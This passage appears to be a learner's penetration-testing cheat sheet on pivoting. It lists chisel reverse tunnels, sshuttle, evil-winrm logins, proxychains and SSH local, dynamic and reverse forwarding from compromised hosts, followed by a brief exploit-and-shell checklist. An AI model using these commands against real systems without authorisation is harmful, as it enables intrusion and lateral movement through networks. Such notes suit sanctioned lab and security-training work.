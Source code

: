   - victim to our machine: ./chisel server -p 1337 --reverse &
- Local Port Forward
  - compromised: ./chisel server -p LISTEN_PORT
  - attacker: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### sshutle
- easier to handle
- only linzx
- need ssh access to public interface
- sshuttle -r username@address subnet  
  - -N to guess the subnet
- No password:
  - sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET
  - -x exclude compromised server
- Direct access to evil-winrM
  - evil-winrm -u pacoca -p 123456 -i 10.200.101.150


### proxy
- proxychains
  - open port in our system linked to target
  - proxychains COMMAND [host] [port] / own conf file proxychains.conf
    - comment proxy_dns ==> cause nmap to crash
    - no Ping (-Pn) only TCP, no UDP/SYN
  
- FoxyProxy
  - better for web

- ssh
  - -L ==> Port FOrwarding
    - ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
      - access FIRST through SECOND, 8000 is local port
      - -f = background
      - -N no command execution
  
  - -D [PORT] ==> Proxy
    - open port on attacking
  
  - Reverse Connections
    - generate ssh key
    - put .pub in authorized: command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-x11-forwading,no-pty ssh-rsa key
    - restart ssh
    - transfer private key to target: 
      - port forward: ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
      - reverse proxy: ssh -R 1337[localport] USERNAME@ATTACKING_IP -i KEYFILE -fN

## GIt enumeration
- nmap -sn ip.1-255 -oN output
- check error message in the http server
- explore folders
- find exploit
- dos2unix exploit.py OR sed -i 's/\r//' python.py
- correct the information on the exploit
- execute shell there
- execute with burp or curl
- curl -POST localhost:8000 ==> here we go to the computer we dont have access
